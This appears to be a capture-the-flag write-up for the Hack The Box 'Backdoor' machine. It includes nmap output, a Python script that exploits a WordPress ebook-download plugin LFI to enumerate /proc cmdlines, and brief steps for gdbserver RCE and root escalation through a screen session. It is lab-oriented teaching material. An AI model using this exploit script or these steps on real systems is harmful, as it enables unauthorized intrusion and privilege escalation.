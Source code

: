 ```yaml
---
title: Backdoor - Easy
categories: htb LFI RCE
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Backdoor - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 
Starting with port 80... We have to examine what type of service is, so `whatweb 'http://10.10.11.125'` will determine the next steps. 
It is running WordPress, it is known that some directory are abaible like wp-content and especificly `wp-content/plugins`. It is tipical that a service like WordPress has some plugins outdate. And it is our case. 
`searchsploit wordpress ebook download` it is vulnerable to a Directory traversal attacks.


### Scripting in python
Now it's time to type some code in python to exploit this LFI. There are some path that are interesting to search into, like /proc where are located all actived process and how were they runned.
``` python
#!/usr/bin/python3

from pwn import *
import time, pdb, signal, sys, requests

# Global
main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"

# Ctrl+C
def def_handler(signum, frame):
    print("[!] Saliendo...")
    sys.exit(1)

def bruteForce():
    p1 = log.progress("Brute Force:")
    p1.status("Starting attack")

    s = requests.session()
    time.sleep(2)

    for i in range(1, 1000):
        p1.status("Trying with /proc/%s/cmdline" % str(i))
        
        url = main_url + str(i) + "/cmdline"
        r = s.get(url)
        if( len(r.content) > 82 ):
            print("------------------------------------------------")
            log.info("/proc/%s/cmdline" % str(i))
            print(r.content)
            print("------------------------------------------------")

signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":
    bruteForce()

```
>[*] /proc/858/cmdline
>/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \\;; done'

>[*] /proc/859/cmdline
>/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done'


We found a gdbserver running in port 1337. `searchsploit gdbserver` and follow the RCE attack. You will be 'user'


### Privilege scalation
Finally we have to search  SUID privilege and there would be some ways to go to /root. This time we can see `/usr/bin/screen` and we saw the cmdline of this process before...
There is a session named as root that we can use. `screen -x root/`. It is all, you are root!
